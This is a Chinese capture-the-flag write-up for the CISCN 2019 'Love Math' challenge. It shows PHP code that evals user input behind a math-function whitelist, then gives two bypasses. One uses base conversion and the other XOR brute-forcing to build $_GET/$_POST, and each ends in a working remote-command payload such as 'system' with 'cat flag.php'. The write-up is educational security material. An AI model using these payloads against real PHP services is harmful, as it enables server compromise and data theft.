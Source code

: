 # \[CISCN 2019 初赛]Love Math

## \[CISCN 2019 初赛]Love Math

## 考点

* 根据白名单构造RCE字符串
* 类似于无字符RCE的构造思路

## wp

给了源码，只能使用白名单里面的函数

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

已知条件:

1. 传入的参数 c 进入 eval 函数中执行
2. c 的长度小于 80
3. c 中不含有黑名单中的字符
4. c 中的字符串必须在白名单中
5. 可以执行的函数只有白名单中的

思路:

1. 使用白名单里的字符构造 RCE 函数
2. 构造出 `$_GET/$_POST`传参，防止 c 长度过长
3. `!@#$%^&*()-+.{}|`等未被过滤
4. 这里在 url 栏输入 +\&# 是会被浏览器分别解析为空格，参数连接符，锚点，应使用URL编码后传入

### 第一种方法

通过进制转换来构造，16进制包含`0-9a-f`，没有包含所有字符，很难利用，但是36进制包含`0-9a-z`

例如，`hex2bin("5f474554")` 就是 `_GET`

![](<../.gitbook/assets/image (3) (1) (1).png>)

![](<../.gitbook/assets/image (32) (1) (1).png>)

最后就构造出来了构造出来了 `_GET`，是`base_convert(37907361743,10,36)(dechex(1598506324));`

在获取 GET/POST 的参数时，可以使用 `$_GET["a"]` 但是还有另外一种用法，使用$\_GET{a}。另外，PHP不加引号的内容，默认作为字符串处理，会抛出警告。

如此，把`base_convert(37907361743,10,36)(dechex(1598506324))`赋值给`pi`，在使用$pi，就可以获得`$_GET`，再进行传参就可以了，即如下

```php
<?php
$pi=base_convert(37907361743,10,36)(dechex(1598506324)); // _GET
($$pi){pow}($$pi{abs}); // $_GET["pow"]($_GET["abs"])
```

payload

```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pow}($$pi{abs})&pow=system&abs=cat flag.php
```

### 第二种方法

通过异或来构造，在 php 中可以对字符串进行异或，其原理就是对字符串中每个字符对应的 ASCII 值进行异或，这就要通过爆破来进行了

```php
<?php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
foreach($whitelist as $w){
    for($a=1;$a<999999;$a++){
        $res = $w ^ decoct($a);
        if(strpos($res,"_POST")===0){
            echo $w.'   '.$a.'   ';
            echo $res;
            echo "\n";
        }
    }
}
```

![](<../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

最终 payload: `?c=$pi=${(hexdec^decoct(31737))};$pi{pow}($pi{abs});`
